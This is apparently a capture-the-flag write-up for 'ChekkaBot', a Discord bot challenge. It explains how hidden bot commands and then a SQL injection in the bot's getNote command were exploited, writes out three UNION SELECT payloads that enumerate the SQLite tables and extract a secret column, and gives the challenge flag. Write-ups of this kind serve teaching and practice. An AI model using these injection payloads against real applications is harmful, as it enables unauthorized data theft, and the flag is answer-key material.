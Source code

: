 # ChekkaBot

## Description

Check out the best bot in the world! i forgot, the admins didn't enable all the commands, only few, or did they? **Author** : Adel

## Write up
the challenge has two parts, the first part is exploiting the bad configuration made by the admins when syncing the commands, to do so we must use all commands in a private chat with the bot,

next, after testing the commands, we find the `getNote` command, it takes an id, throw a ' or * in there and we get an error, ez sqli ? but there is a small thing you need to notice first, the getNote cmd only return your notes, this is done by checking the `ur_username` column in the `notes` table, so we can't get other users notes.

1. get table names
`' union SELECT 'ur_username',1,name FROM sqlite_schema WHERE type ='table'`

2. get columns name
`' union SELECT 'ur_username',1,name FROM PRAGMA_TABLE_INFO('VeryS3cretTable');`

3. get the flag
`' union SELECT 'ur_username',1, fl4g FROM VeryS3cretTable;/*`

`AlphaCTF{D1Sc0rD_b07s_ArE_fun_JUsT_MAKE_SuRe_70_$eCur3_ThEm}`